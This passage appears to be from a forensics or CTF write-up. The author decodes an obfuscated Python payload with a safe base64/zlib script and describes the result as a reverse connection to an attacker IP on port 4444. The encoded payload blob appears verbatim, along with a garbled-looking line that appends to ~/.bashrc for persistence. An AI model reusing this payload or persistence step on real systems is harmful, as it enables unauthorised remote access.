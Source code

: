 ![b91157a06f331811d2d33286f37cc643.png](../../../_resources/b91157a06f331811d2d33286f37cc643-1.png)
Look like it was a python script for something

```
import base64
import zlib

# Encoded and compressed payload
encoded_compressed_payload = 'eJw9UN9LwzAQfl7+irCHNcEsrqMbOmxBxAcRGTjfRKRNT1uaJiWXaqfo325Dh/dwx3f33Xc/6razzlO0qgEvvnRdiCJH2CYCveuVF75uQVgkxKLEI3po2RxUZanCpa5NP9DFgmYZ/T2XY2Pl1JyTN+voQGtDXW7egcUrviMz746jn2E6zZJTYGtxwof9zf3r4enx9vqBB55U1hhQnrEovlzLeHshY7mJRDIaD4zCQd6QGQwKOh+kw6oSNUDHNpzodLpA9qbLVcOi7C4SKB2oDzYKPK9eSJmesObks6o1UA2GlfxKj3Ll2X91OaU5gQEUC0+SJSjbdg4Q2fQvWWyTkCwhMMV3hNEOfzj5Axx7baM='

# Decode from base64
decoded_data = base64.b64decode(encoded_compressed_payload)

# Decompress using zlib
decompressed_data = zlib.decompress(decoded_data)

# Print the decompressed data
print(decompressed_data.decode('utf-8'))
```

I asked ChatGPT to write a script to decode it without directly executed base64 payload

![bc20d76e7528d13315f7f4e455f3fce5.png](../../../_resources/bc20d76e7528d13315f7f4e455f3fce5-1.png)
Then we will have this decoded python script that will create a connection to the attacker IP address on port 4444 for persistence

```
echo cs-linux && >> ~/.bashrc
```
